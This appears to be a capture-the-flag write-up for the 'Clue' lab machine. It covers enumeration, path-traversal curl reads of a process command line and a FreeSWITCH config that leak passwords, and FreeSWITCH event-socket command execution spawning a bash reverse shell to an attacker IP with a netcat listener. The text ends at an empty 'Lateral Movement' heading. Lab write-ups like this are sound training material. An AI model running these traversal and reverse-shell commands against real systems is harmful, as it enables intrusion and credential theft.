

repository: gmrvh/blog · page: pg/clue/index.html · generator: mkdocs

# Clue - Writeup

## Initial Enumeration

### Port Scanning
A comprehensive port scan revealed several open services:
```
22/tcp   open  ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http             Apache httpd 2.4.38
139/tcp  open  netbios-ssn      Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn      Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3000/tcp open  http             Sinatra web framework
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
```

### SMB Enumeration
I tested for anonymous SMB access and found it was allowed:
```bash
smbclient -L //192.168.178.240/ -N
```

This revealed a share named "backup" that could be accessed without authentication:
```bash
smbclient //192.168.178.240/backup -N
```

I mounted the share to examine its contents but found only default installation files. Although there were some configuration files with credentials, these appeared to be the default ones.

### Web Enumeration
The Apache server on port 80 returned a 403 Forbidden response. However, port 3000 was hosting a Cassandra Web Framework application. Initial exploration of this application revealed it was an interface for managing a Cassandra database.

## Gaining Initial Access

### Cassandra Web Framework Vulnerability
Further research revealed that the Cassandra Web Framework is vulnerable to a local file read vulnerability. I exploited this to read sensitive files on the system:

```bash
curl -s "http://192.168.178.240:3000/resource/system.schema_keyspaces/../../../../../../proc/self/cmdline"
```

This revealed potential credentials for the user cassie: `SecondBiteTheApple330`

### FreeSWITCH Configuration
Using the same vulnerability, I targeted known configuration files for the FreeSWITCH service that was running on port 8021:

```bash
curl -s "http://192.168.178.240:3000/resource/system.schema_keyspaces/../../../../../../etc/freeswitch/autoload_configs/event_socket.conf.xml"
```

This disclosed FreeSWITCH credentials:
- **Username**: (default)
- **Password**: StrongClueConEight021

### FreeSWITCH Exploitation
FreeSWITCH's event socket interface on port 8021 is known to be vulnerable to command execution if you have valid credentials. I connected to it and executed commands:

```bash
nc 192.168.178.240 8021
auth StrongClueConEight021
bgapi system /bin/bash -c "bash -i >& /dev/tcp/192.168.45.183/4444 0>&1"
```

On my attack machine, I had a netcat listener waiting:
```bash
nc -lvnp 4444
```

This provided a shell as the freeswitch user.

## Lateral Movement
